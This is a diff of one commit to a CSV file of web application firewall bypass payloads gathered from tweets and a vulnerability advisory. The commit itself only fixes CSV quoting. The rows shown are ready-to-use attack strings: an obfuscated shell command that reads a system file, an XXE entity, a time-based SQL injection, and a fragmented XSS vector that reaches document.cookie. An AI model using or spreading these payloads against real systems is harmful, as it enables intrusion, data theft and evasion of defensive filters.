

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -460,3 +460,3 @@ https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/
 https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a ""&#x3c;&#x21; ... omitted ...", xxe
-https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{""sku"":""a\"" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU""},sqli
+https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,"{""sku"":""a\"" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU""}",sqli
 https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">,xss
```
